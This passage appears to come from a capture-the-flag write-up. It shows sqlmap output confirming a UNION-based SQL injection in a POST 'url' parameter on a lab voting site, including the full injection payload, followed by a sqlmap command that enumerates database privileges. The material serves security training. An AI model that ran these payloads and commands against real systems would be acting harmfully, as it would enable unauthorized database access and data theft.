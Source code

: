 ```bash
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=http://vote.cobblestone.htb/index.php' UNION ALL SELECT NULL,CONCAT(0x7178707671,0x6145494f4c7a53735276666843686a5749724b69696a574768636f4e6c4c4e424e6756506a49794c,0x71707a7071),NULL,NULL,NULL-- -
---
[09:30:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:30:29] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 3 times
[09:30:29] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 09:30:29 /2025-08-13/
```

We got 3 techniques to exploit this SQLi. <br>
&rarr; Gonna go with `UNION query` technique.

We continue to enumrate the db privilege.

```bash
└─$ sqlmap -r req --batch --privilege 
        ___
       __H__                                                                                                                                                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.9.6#stable}                                                                                                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                                                                                                   
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:33:02 /2025-08-13/

[09:33:02] [INFO] parsing HTTP request from 'req'
[09:33:03] [INFO] resuming back-end DBMS 'mysql' 
[09:33:03] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=27'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
```